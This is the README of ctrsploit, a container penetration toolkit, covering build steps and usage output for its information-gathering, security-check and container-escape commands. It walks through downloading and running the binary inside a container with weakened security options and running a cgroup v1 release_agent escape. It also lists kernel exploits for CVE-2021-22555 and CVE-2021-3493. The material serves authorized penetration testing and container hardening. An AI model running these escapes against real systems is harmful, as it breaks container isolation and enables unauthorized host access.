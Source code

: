 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt] , follows [sploit-spec](https://github.com/ctrsploit/sploit-spec) v0.4.3

## Why ctrsploit

see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Self Build

### Build in Container

```bash
make binary && ls -lah bin/release
```

### Build in Local

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security

Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## Details

### env

| command                          | alias | description                                                              |
|----------------------------------|-------|--------------------------------------------------------------------------|
| [auto](./env/auto)               |       | auto gather environment information                                      |
| [where](./env/where)             | w     | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g     | detect graphdriver type and extend information                           |
| [cgroups](./env/cgroups)         | c     | gather cgroup information                                                |
| [capability](./env/capability)   | cap   | show the capability of pid 1 and current process                         |
| [seccomp](./env/seccomp)         | s     | show the seccomp info                                                    |
| [apparmor](./env/apparmor)       | a     | show the apparmor info                                                   |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns                                               |

### exploit

| exploit                                                                                  | alias | description                                                                  |
|------------------------------------------------------------------------------------------|-------|------------------------------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | escape tech by using the notify_on_release of cgroup v1                      |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04)                        |

### helper

| helper                                  | alias                    | description                    |
|-----------------------------------------|--------------------------|--------------------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec

Just execute `ctrsploit checksec` or standalone binary file `checksec`.